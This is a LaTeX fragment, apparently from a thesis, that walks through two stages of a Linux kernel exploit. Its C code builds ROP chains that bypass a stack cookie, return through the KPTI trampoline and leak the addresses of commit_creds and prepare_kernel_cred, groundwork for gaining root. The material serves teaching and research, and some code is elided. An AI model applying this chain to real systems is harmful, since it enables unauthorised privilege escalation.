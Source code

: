 \documentclass{masterthesis}
\newcommand{\refToSection}[1]{Section~\ref{sect:#1}\xspace}
\begin{document}
\subsection{Leaking commit\_creds and prepare\_kernel\_cred()}
The goal is to leak \lstinline{commit_creds()} and read the value\_offset of \lstinline{ksymtab_commit_creds}, then add them together. We will use our 2 memory reading gadgets to read it, using the ROP technique introduced in \refToSection{trampoline}, and safely return to the user-land via the KPTI trampoline to prepare for the next step.
\begin{lstlisting}
void stage_1(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = ksymtab_commit_creds - 0x10; // rax <- __ksymtabs_commit_creds - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_commit_creds]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_commit_creds;
    ....
}
void get_commit_creds(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    commit_creds = ksymtab_commit_creds + (int)tmp_store;
    printf("    --> commit_creds: %lx\n", commit_creds);
    stage_2();
}
\end{lstlisting}
Second stageis exactly the same as stage 1:
\begin{lstlisting}
void stage_2(void){
    ...
    //the same as 1 stage
    ...
    payload[off++] = ksymtab_prepare_kernel_cred - 0x10; // rax <- __ksymtabs_prepare_kernel_cred - 0x10
    payload[off++] = read_mem_pop1_ret; // rax <- [__ksymtabs_prepare_kernel_cred]
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_prepare_kernel_cred;
    ....
}

void get_prepare_kernel_cred(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov tmp_store, rax;"
        ".att_syntax;"
    );
    prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
    printf("    --> prepare_kernel_cred: %lx\n", prepare_kernel_cred);
    stage_3();
}

\end{lstlisting}
\end{document}
